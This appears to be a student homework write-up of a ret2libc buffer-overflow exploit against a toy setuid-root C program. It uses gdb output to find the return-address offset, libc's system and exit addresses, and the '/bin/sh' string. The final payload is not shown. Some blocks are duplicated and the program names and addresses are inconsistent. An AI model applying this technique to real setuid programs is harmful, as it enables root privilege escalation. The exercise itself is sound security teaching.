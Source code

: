 # Ret2libc

## Task
The goal is to exploit the following simple program, when compiled with the following commands:

```
vijay@kali> cat vuln2.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {

  char buf[256];

  strcpy(buf, argv[1]);
  printf("Input: %s\n", buf);

  return 0;
}
vijay@kali> gcc -g -fno-stack-protector -mpreferred-stack-boundary=2 -o vuln2 vuln2.c
vijay@kali> sudo chown root vuln2
vijay@kali> sudo chgrp root vuln2
vijay@kali> sudo chmod +s vuln2
```
<hr/>
## Solution

### Instuctions to run
```
# exploit vuln2.c
$ make clean && make vuln2
$ python exploit2.py
```

### Explanation
First, I guessed the offset of return address. In the code, we have only one local variable char buf[256]; which is of 256 bytes size. So return address might be located at 256 + 4 (old ebp) bytes.

```
vijay@kali:~/hw3$ gdb vuln3 -q
Reading symbols from vuln3...done.
(gdb) run `python -c 'print "A" * 260 + "BBBB"'`
Starting program: /home/vijay/hw3/vuln3 `python -c 'print "A" * 260 + "BBBB"'`
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```
Next, I found the function addresses of system and exit functions as shown
below:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so
```

Next, I found the function addresses of system and exit functions as shown below:

```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb755d850 <__libc_system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb75516c0 <__GI_exit>
(gdb) info proc mappings
process 1691
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/vijay/hw3/vuln3
         0x8049000  0x804a000     0x1000        0x0 /home/vijay/hw3/vuln3
        0xb7e05000 0xb7fb2000   0x1ad000        0x0 /lib/i386-linux-gnu/libc-2.23.so
```

Next, I searched for the location of "/bin/sh" string in /lib/i386-linux-gnu/libc-2.23.so:
```
vijay@kali:~/hw3$ strings -t x /lib/i386-linux-gnu/libc-2.23.so | grep /bin/sh
 158e64 /bin/sh

So "/bin/sh" string is located at 0xb7f5de64 location

(gdb) print/x 0xb7e05000 + 0x158e64
$1 = 0xb7f5de64
(gdb) x/1s 0xb7f5de64
0xb7f5de64:     "/bin/sh"
```

Finally, I crafted my payload to exploit vuln2.c. Please refer to exploit2.py for complete details of the payload.
